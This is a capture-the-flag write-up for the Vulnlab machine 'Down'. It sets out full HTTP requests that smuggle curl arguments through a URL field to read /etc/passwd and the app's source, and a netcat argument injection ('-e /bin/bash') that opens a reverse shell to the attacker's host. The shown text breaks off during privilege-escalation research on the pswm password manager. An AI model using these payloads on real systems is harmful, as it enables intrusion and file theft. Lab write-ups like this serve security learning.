




## Summary

The box offers the possibility to check whether a `website` is `up` or `down` by providing a `URL` to the `web application`. The application is vulnerable to `Server-Side Request Forgery (SSRF)` which makes you able to read `index.php` on `localhost` by modifying `HTTP headers` to achieve `Local File Inclusion (LFI)`. The `index.php` contains the `source code` of the application. There you can find information about a `conditional statement` to provide `expertmode` as a specific `GET parameter` which can be leveraged by adding another `HTTP header` to execute a `reverse shell`. You will get the `user.txt` within the user `www-data`. By doing `basic enumeration` you can find a `.crash` file inside `/var/crash` which directs you to a `command line password manager` called `pswm`. The corresponding `vault` file is located inside the `home directory` within `.local` of a user called `aleks`. You get the hint for the location from the `.crash` file. By using a already available `decoder` you can `decode` the `encoded password` of `aleks` and `escalate privileges`. As last step just use the `sudo permissions` of `aleks` to get `root` by executing `sudo su`. Grab the `root.txt` and close the box.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80-TCP)
- [Server-Side Request Forgery (SSRF)](#Server-Side-Request-Forgery-SSRF)
- [Abusing URL Parser](#Abusing-URL-Parser)
- [Foothold](#Foothold)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Investigating pswm](#Investigating-pswm)
- [Privilege Escalation to aleks](#Privilege-Escalation-to-aleks)
- [Pivoting](#Pivoting)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

As usual `xct` provided the available ports to the box to skip the unnecessary port scanning exercise.

- [https://wiki.vulnlab.com/guidance/easy/down](https://wiki.vulnlab.com/guidance/easy/down)

Since we started early the information was not available and we did a quick scan.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sV 10.10.82.230
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 20:01 CEST
Nmap scan report for 10.10.82.230
Host is up (0.014s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### Enumeration of Port 80/TCP

On port `80/TCP` we found a website which provided `status checks` when entered `URLs` and showed if they were `up` or `down`.

- [http://10.10.82.230/](http://10.10.82.230/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb 10.10.82.230
http://10.10.82.230 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.82.230], Title[Is it down or just me?]
```



We fired up a local `Python Web Server` and hit it using the `URL field` on the website.



```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Down/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.82.230 - - [19/Sep/2024 20:04:46] code 404, message File not found
10.10.82.230 - - [19/Sep/2024 20:04:46] "GET /x HTTP/1.1" 404 -
```

We also started `Netcat` to have a quick look onto the `response` and noticed that the `web server` used `curl/7.81.0` to reach out.

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 44314
GET / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
```

## Server-Side Request Forgery (SSRF)

First thing we checked after we noticed that the website would reached out to us was `Server-Side Request Forgery (SSRF)` to see if we could `access` any `resources` which should `only available locally`. Our man `carnifex17` put together the command for `ffuf` to enumerate any available ports, but we only found port `80/TCP`.

```c
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://10.10.82.230/index.php -X POST -d 'url=http%3A%2F%2Flocalhost%3AFUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 836

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.82.230/index.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http%3A%2F%2Flocalhost%3AFUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 836
________________________________________________

80                      [Status: 200, Size: 1961, Words: 271, Lines: 54, Duration: 493ms]
:: Progress: [38267/38267] :: Job [1/1] :: 89 req/sec :: Duration: [0:07:12] :: Errors: 0 ::
```

We expanded the command and looked for `files` we could access. The only interesting one was the `server-status` page.

```c
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://10.10.82.230/index.php -X POST -d 'url=http%3A%2F%2Flocalhost%2FFUZZ' -H 'Content-Type: application/x-www-form-urlencoded' --fs 1257,1249

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.82.230/index.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http%3A%2F%2Flocalhost%2FFUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1257,1249
________________________________________________

javascript              [Status: 200, Size: 1311, Words: 160, Lines: 36, Duration: 263ms]
.                       [Status: 200, Size: 1961, Words: 271, Lines: 54, Duration: 228ms]
server-status           [Status: 200, Size: 57824, Words: 785, Lines: 537, Duration: 255ms]
:: Progress: [38267/38267] :: Job [1/1] :: 185 req/sec :: Duration: [0:03:57] :: Errors: 0 ::
```

## Abusing URL Parser

With `Bushidosan` coming in to clutch out the foothold we looked deeper into `absuing` the `URL parser` to get `Local File Inclusion (LFI)` or `Remote Code Execution (RCE)`. The following resources helped us a lot putting together a payload with added `custom HTTP headers` and to get them back on our `Netcat listener`.

- [https://blog.orange.tw/posts/2017-07-how-i-chained-4-vulnerabilities-on/](https://blog.orange.tw/posts/2017-07-how-i-chained-4-vulnerabilities-on/)
- [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```c
POST /index.php HTTP/1.1
Host: 10.10.114.88
Content-Length: 48
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.114.88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.114.88/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

url=http%3A%2F%2F10.8.0.2+-H+"asdf;"+-d+"foobar"


```


```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 42592
POST / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
asdf\:
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

foobar
```

As next step `Bushidosan` nailed the `Local File Inclusion (LFI)` by updating the payload to read `/etc/passwd` and with that we found a valid user called `aleks`.

```c
POST /index.php HTTP/1.1
Host: 10.10.114.88
Content-Length: 52
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.114.88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.114.88/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

url=http%3A%2F%2F10.8.0.2+-H+"asdf;"+-d+"@/etc/passwd"


```



```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 34472
POST / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
asdf\:
Content-Length: 1796
Content-Type: application/x-www-form-urlencoded

root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:104::/nonexistent:/usr/sbin/nologinsystemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinpollinate:x:105:1::/var/cache/pollinate:/bin/falsesshd:x:106:65534::/run/sshd:/usr/sbin/nologinsyslog:x:107:113::/home/syslog:/usr/sbin/nologinuuidd:x:108:114::/run/uuidd:/usr/sbin/nologintcpdump:x:109:115::/nonexistent:/usr/sbin/nologintss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/falselandscape:x:111:117::/var/lib/landscape:/usr/sbin/nologinfwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologinusbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinaleks:x:1000:1000:Aleks:/home/aleks:/bin/bashlxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
```

| Username |
| -------- |
| aleks    |

## Foothold

Now to gain `foothold` on the box our man `mk0` read the `index.php` through the `Local File Inclusion (LFI)` which provided us the `source code` of the `application`.

```c
url=http%3A%2F%2F10.8.0.2+-H+"asdf;"+-d+"@/var/www/html/index.php"
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 54230
POST / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
asdf\:
Content-Length: 2961
Content-Type: application/x-www-form-urlencoded

<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Is it down or just me?</title>    <link rel="stylesheet" href="style.css"></head><body>    <header>                <h2>Is it down or just me?</h2>    </header>    <div class="container"><?phpif ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {  echo '<h1>Is the port refused, or is it just you?</h1>        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>            <button type="submit">Is it refused?</button>        </form>';} else {  echo '<h1>Is that website down, or is it just you?</h1>        <form id="urlForm" action="index.php" method="POST">            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>            <button type="submit">Is it down?</button>        </form>';}if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {  $ip = trim($_POST['ip']);  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);  $port = trim($_POST['port']);  $port_int = intval($port);  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);  if ( $valid_ip && $valid_port ) {    $rc = 255; $output = '';    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");    exec($ec . " 2>&1",$output,$rc);    echo '<div class="output" id="outputSection">';    if ( $rc === 0 ) {      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';    } else {      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';    }  } else {    echo '<div class="output" id="outputSection">';    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';  }} elseif (isset($_POST['url'])) {  $url = trim($_POST['url']);  if ( preg_match('|^https?://|',$url) ) {    $rc = 255; $output = '';    $ec = escapeshellcmd("/usr/bin/curl -s $url");    exec($ec . " 2>&1",$output,$rc);    echo '<div class="output" id="outputSection">';    if ( $rc === 0 ) {      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';    } else {      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";    }  } else {    echo '<div class="output" id="outputSection">';    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';  }}?></div></div><footer>© 2024 isitdownorjustme LLC</footer></body></html>
```

```c
<!DOCTYPE html>
<html lang="en">
<head>    
    <meta charset="UTF-8">    
    <meta name="viewport" content="width=device-width, initial-scale=1.0">    
    <title>Is it down or just me?</title>    
    <link rel="stylesheet" href="style.css">
</head>
<body>    
    <header>        
                
        <h2>Is it down or just me?</h2>    
    </header>    

    <div class="container">
        <?php
        if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {  
            echo '
                <h1>Is the port refused, or is it just you?</h1>
                <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
                    <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
                    <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
                    <button type="submit">Is it refused?</button>
                </form>
            ';
        } else {  
            echo '
                <h1>Is that website down, or is it just you?</h1>
                <form id="urlForm" action="index.php" method="POST">
                    <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
                    <button type="submit">Is it down?</button>
                </form>
            ';
        }

        if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {  
            $ip = trim($_POST['ip']);  
            $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);  
            $port = trim($_POST['port']);  
            $port_int = intval($port);  
            $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);

            if ( $valid_ip && $valid_port ) {    
                $rc = 255; 
                $output = '';    
                $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");    
                exec($ec . " 2>&1", $output, $rc);

                echo '<div class="output" id="outputSection">';
                
                if ( $rc === 0 ) {      
                    echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";      
                    echo '<p id="outputDetails"><pre>' . htmlspecialchars(implode("\n", $output)) . '</pre></p>';    
                } else {      
                    echo "<font size=+1>It is down for everyone! 😔</font><br><br>";      
                    echo '<p id="outputDetails"><pre>' . htmlspecialchars(implode("\n", $output)) . '</pre></p>';    
                }
            } else {    
                echo '<div class="output" id="outputSection">';    
                echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';  
            }
        } elseif (isset($_POST['url'])) {  
            $url = trim($_POST['url']);  
            if ( preg_match('|^https?://|', $url) ) {    
                $rc = 255; 
                $output = '';    
                $ec = escapeshellcmd("/usr/bin/curl -s $url");    
                exec($ec . " 2>&1", $output, $rc);

                echo '<div class="output" id="outputSection">';

                if ( $rc === 0 ) {      
                    echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";      
                    echo '<p id="outputDetails"><pre>' . htmlspecialchars(implode("\n", $output)) . '</pre></p>';    
                } else {      
                    echo "<font size=+1>It is down for everyone! 😔</font><br><br>";    
                }
            } else {    
                echo '<div class="output" id="outputSection">';    
                echo '<font color=red size=+1>Only protocols http or https allowed.</font>';  
            }
        }
        ?>
    </div>
    
    <footer>
        © 2024 isitdownorjustme LLC
    </footer>
</body>
</html>
```

We found a `conditional statement` to provide `expertmode` as a specific `GET parameter` to the user.

```c
        if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {  
            echo '
                <h1>Is the port refused, or is it just you?</h1>
                <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
```

By updating the `URL` to use the `expertmode` we were able to leverage `escapeshellcmd` which used `/usr/bin/nc` in our `payload` by adding the `ip header` to execute `/bin/bash` to give us a `reverse shell`.

```c
        if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {  
            $ip = trim($_POST['ip']);  
            $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);  
            $port = trim($_POST['port']);  
            $port_int = intval($port);  
            $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);

            if ( $valid_ip && $valid_port ) {    
                $rc = 255; 
                $output = '';    
                $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");    
                exec($ec . " 2>&1", $output, $rc);
```

```c
POST /index.php?expertmode=tcp HTTP/1.1
Host: 10.10.114.88
Content-Length: 66
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.114.88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.114.88/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

ip=10.8.0.2&port=9001+-e+/bin/bash
```



```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 48650

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@down:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@down:/var/www/html$ 
www-data@down:/var/www/html$ export XTERM=xterm
www-data@down:/var/www/html$
```

## user.txt

The shell as `www-data` was enough to grab the `user.txt`.

```c
www-data@down:/var/www/html$ cat user_aeT1xa.txt
VL{<REDACTED>}
```

## Enumeration

We proceeded with `manual enumeration` and checked a few `default options` and `locations`.

```c
www-data@down:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```c
www-data@down:/var/www/html$ ss -tulpn
Netid State  Recv-Q Send-Q     Local Address:Port Peer Address:PortProcess
udp   UNCONN 0      0          127.0.0.53%lo:53        0.0.0.0:*          
udp   UNCONN 0      0      10.10.114.88%eth0:68        0.0.0.0:*          
tcp   LISTEN 0      128              0.0.0.0:22        0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.53%lo:53        0.0.0.0:*          
tcp   LISTEN 0      128                 [::]:22           [::]:*          
tcp   LISTEN 0      511                    *:80              *:*
```

In `/var/crash` we found a file called `_usr_bin_pswm.33.crash`.

```c
www-data@down:/var/crash$ ls -la
total 48
drwxrwxrwt  2 root     root      4096 Sep  6 15:01 .
drwxr-xr-x 14 root     root      4096 Sep  6 14:35 ..
-rw-r-----  1 www-data www-data 36993 Sep  6 15:01 _usr_bin_pswm.33.crash
```

The file contained information about a `crashed application` named `pswm`. The application crashed because of `insufficient permissions` on the folder `/var/www/.local` which doesn't existed.

```c
www-data@down:/var/crash$ cat _usr_bin_pswm.33.crash
ProblemType: Crash
Date: Fri Sep  6 15:01:16 2024
ExecutablePath: /usr/bin/pswm
ExecutableTimestamp: 1725633898
InterpreterPath: /usr/bin/python3.10
ProcCmdline: python3 /usr/bin/pswm
ProcCwd: /
ProcEnviron:
 LANG=C
 LC_CTYPE=C.UTF-8
 PATH=(custom, no user)
ProcMaps:
 5566cad86000-5566cadf3000 r--p 00000000 fd:00 1636                       /usr/bin/python3.10
 5566cadf3000-5566cb0a3000 r-xp 0006d000 fd:00 1636                       /usr/bin/python3.10
 5566cb0a3000-5566cb2e2000 r--p 0031d000 fd:00 1636                       /usr/bin/python3.10
 5566cb2e2000-5566cb2e9000 r--p 0055b000 fd:00 1636                       /usr/bin/python3.10
 5566cb2e9000-5566cb328000 rw-p 00562000 fd:00 1636                       /usr/bin/python3.10
<--- CUT FOR BREVITY --->
 Mems_allowed:  00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001
 Mems_allowed_list:     0
 voluntary_ctxt_switches:       133
 nonvoluntary_ctxt_switches:    59
PythonArgs: ['/usr/bin/pswm']
Traceback:
 Traceback (most recent call last):
   File "/usr/bin/pswm", line 393, in <module>
     PASS_VAULT_FILE = get_xdg_data_path("pswm")
   File "/usr/bin/pswm", line 89, in get_xdg_data_path
     return _get_xdg_path(env="XDG_DATA_HOME",
   File "/usr/bin/pswm", line 60, in _get_xdg_path
     os.makedirs(config, exist_ok=True)
   File "/usr/lib/python3.10/os.py", line 215, in makedirs
     makedirs(head, exist_ok=exist_ok)
   File "/usr/lib/python3.10/os.py", line 215, in makedirs
     makedirs(head, exist_ok=exist_ok)
   File "/usr/lib/python3.10/os.py", line 225, in makedirs
     mkdir(name, mode)
 PermissionError: [Errno 13] Permission denied: '/var/www/.local'
UserGroups: N/A
```

## Investigating pswm

A quick look into the `application` revealed that it was a `command line password manager` written in `Python`.

- [https://github.com/Julynx/pswm](https://github.com/Julynx/pswm)

```c
www-data@down:/dev/shm$ cat /usr/bin/pswm 
#!/usr/bin/env python3

"""
@file     pswm
@date     04/05/2023
@version  1.5
@change   1.5: Code linting
@license  GNU General Public License v2.0
@url      github.com/Julynx/pswm
@author   Julio Cabria
"""


import sys
import os
import random
import string
from contextlib import suppress
import getpass
import cryptocode
from prettytable import PrettyTable, SINGLE_BORDER


def _get_xdg_path(env: str,
                  app: str,
                  default: str,
                  create: bool = False) -> str:
    """
    Returns the value of the env environment variable with
    the app folder and file appended to it. (See example below)

    Example: Return value equals to
             "XDG_CONFIG_HOME/app/app"
             or
             "default/app/app" if XDG_CONFIG_HOME is not set

    Args:
        env (str): Name of the environment variable.
        app (str): Name of the app to be used for the folder and the file.
        default (str): Default value to use for the path if env
        is not set.
        create (bool): Wether to create the config file or not.
        Defaults to False. Dirs are always created if they don't exist.

    Returns:
        str: Path to the app folder and file or fallback value.
    """

    # 1. Read the XDG_config environment variable
    if env in os.environ and os.path.exists(os.environ[env]):
        config = os.environ[env]
    else:
        # Expand the default path
        config = os.path.expanduser(default)

    config = config[:-1] if config.endswith("/") else config

    # 2. Create the app folder if it doesn't exist
    config += f"/{app}"
    os.makedirs(config, exist_ok=True)

    # 3. Add the config file name to the path
    config += f"/{app}"
